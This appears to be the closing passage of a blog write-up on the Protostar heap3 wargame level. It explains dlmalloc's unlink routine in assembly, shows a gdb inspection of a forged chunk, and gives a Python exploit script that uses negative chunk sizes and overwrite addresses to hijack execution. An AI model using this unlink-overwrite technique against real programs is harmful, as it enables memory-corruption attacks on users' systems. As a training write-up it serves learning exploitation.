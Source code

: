 {% highlight nasm %}
;; fwd, bck & pointer are local variables
mov eax, [pointer] ; load pointer into eax
mov eax, [eax+0x8] ; move pointer->fwd into eax
mov [fwd],eax      ; fwd is now pointer->fwd
mov eax, [pointer] ; eax = pointer
mov eax, [eax+0xc] ; eax = pointer->bck
mov [bck],eax      ; bck is now pointer->bck
mov eax, [fwd]     ; eax = fwd
mov edx, [bck]     ; edx = bck
mov [eax+0xc],edx  ; fwd->bck = bck
mov eax, [bck]     ; eax = bck
mov edx, [fwd]     ; edx = fwd
mov [eax+0x8],edx  ; bck->fwd = fwd
{% endhighlight %}


Normally, the next chunk would be stored located at `P+P->size` but if
we modify `P->size` to be a negative number; we trick dlmalloc into thinking
that the next chunk is located at `P+-4`, four bytes before P.

The fake chunks only function is to trick dlmalloc into running the
chunk through unlink.

~~~
(gdb) x/i $eip
0x80498f7 <free+211>:	mov	eax,DWORD PTR [ebp-0x14]
(gdb) # p = pointer to chunk being freed
(gdb) print/x p
$0 = 0x804c054
(gdb) # Inspect the members of the chunk
(gdb) print/x *p
$1 = {prev_size = 0xfffffffc, size = 0x4b4e0043, fd = 0x804b11c, bk = 0x804c00c}
~~~

And we finally arrive at running our lil' exploit.

{% highlight python %}
# exploit.py
print 'JUNK'+\
    '\x68\x64\x88\x04\x08\xc3'+\
    ' '+'A'*32+\
    '\xfc\xff\xff\xff'+\
    '\xfc\xff\xff\xff'+\
    'JUNK'+\
    '\x1c\xb1\x04\x08'+\
    '\x0c\xc0\x04\x08'+\
    ' C'
{% endhighlight %}

~~~ 
$ /opt/protostar/bin/heap3 `python exploit.py`
That wasn't too bad now, was it? @ 1455218039
~~~


* * * 

These heap corruption problems was certainly a challenge, t'was fun.

Thanks for bearing with me & reading my nonsense.

Towards the next set of problems!

